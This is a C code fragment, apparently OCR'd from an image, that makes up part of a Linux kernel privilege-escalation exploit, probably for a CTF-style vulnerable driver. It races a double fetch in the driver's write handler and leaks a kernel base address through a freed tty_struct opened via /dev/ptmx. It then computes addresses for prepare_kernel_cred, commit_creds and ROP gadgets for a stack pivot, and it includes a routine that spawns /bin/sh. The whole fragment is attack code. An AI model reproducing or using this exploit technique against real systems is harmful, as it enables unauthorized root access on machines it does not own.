 ```c
    while(!istriggered){
        d->menu = 0x9000000; // 0xffffffffc0000000 + (0x8000000+0x1000000)*8 = 0x8000000
        puts("[*] race ...");
    }
}


void double_fetch()

{

    struct data race_arg;
    pthread_t pthread;
    race_arg.arg = 0x10001;
    pthread_create(&pthread,NULL, race, &race_arg);
    for (int j=0; j< 0x10000000000; j++)
    {
        race_arg.menu = 1;
        write(fd, (void*)&race_arg, sizeof(struct data));
    }
    pthread_join(pthread, NULL);

}


void shell()
{
    istriggered =1;
    system("/bin/sh");
}

void leak_kernel_address()


{
    int fdp=open("/dev/ptmx", O_RDWR|O_NOCTTY);
    close(fdp);
    sleep(1); // trigger rcu grace period

    struct data d;
    d.menu=1;
    d.arg=0x2e0;  // sizeof(tty_struct) =0x2e0
    write(fd, (char *)&d, sizeof(struct data));

    d.menu=5;
    d.arg = 0;  // select note i -> 0 
    write(fd, (char *)&d, sizeof(struct data));
    char buf[0x100];
    read(fd, buf, 0x100);
    unsigned long leak;
    leak= *(size_t *)(buf+3*8);
    kernel_base = leak - 0xA35360;
    printf("[+] Leak_addr= %p     kernel_base= %p\n", leak , kernel_base);
    
    prepare_kernel_cred = kernel_base + 0x69fe0;
    commit_creds        = kernel_base + 0x69df0;
    xchg_eax_esp_ret    = kernel_base + 0x1992a;  // xchg eax, esp; ret;
    pop_rdi_ret         = kernel_base + 0x1c20d;  // pop rdi; ret;
    pop_rsi_ret         = kernel_base + 0x37799;  // pop rsi; ret; 
    mov_rdi_rax_p_ret   = kernel_base + 0x21ca6a; // cmp rcx, rsi; mov rdi, rax; ja 0x41ca5d; pop rbp; ret;
    pop_rcx             = kernel_base + 0x37523;  // pop rcx ; ret
    pop_r11             = kernel_base + 0x1025c8; // pop r11 ; pop rbp ; ret
```